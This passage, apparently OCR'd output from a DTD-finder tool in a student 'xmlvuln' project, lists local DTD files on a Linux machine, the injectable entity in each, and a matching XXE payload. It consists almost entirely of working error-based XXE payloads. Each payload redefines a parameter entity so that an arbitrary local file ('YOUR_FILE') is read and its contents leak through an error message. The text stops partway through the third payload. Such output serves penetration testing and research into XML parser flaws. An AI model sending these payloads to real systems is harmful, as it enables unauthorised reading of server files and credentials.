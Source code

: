 **Injectable entity:** `Text`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/gapdoc/gapdoc.dtd">

    <!ENTITY % Text 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/gtksourceview/language.dtd`

**Injectable entity:** `itemattrs`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/gtksourceview/language.dtd">

    <!ENTITY % itemattrs '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/libgweather/locations.dtd`

**Injectable entity:** `name`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/libgweather/locations.dtd">

    <!ENTITY % name 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

```